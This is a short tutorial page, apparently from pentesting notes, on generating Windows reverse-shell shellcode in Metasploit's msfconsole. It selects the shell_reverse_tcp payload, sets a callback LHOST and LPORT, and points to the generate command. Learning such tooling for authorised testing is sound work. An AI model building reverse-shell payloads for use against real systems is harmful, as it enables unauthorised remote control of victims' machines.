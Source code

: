 # Generate shellcode

An easy way to generate shellcode is by using msfvenom or msconsole. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. 

## Msfconsole

In msfconsole you have the keyword **generate** that help us generate shellcode. So first we have to select a payload.

```
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```
set LPORT 5555
set LHOST 192.168.0.101
```

now we genereate the shellcode using the command **generate**.

To see the options use **generate -h**



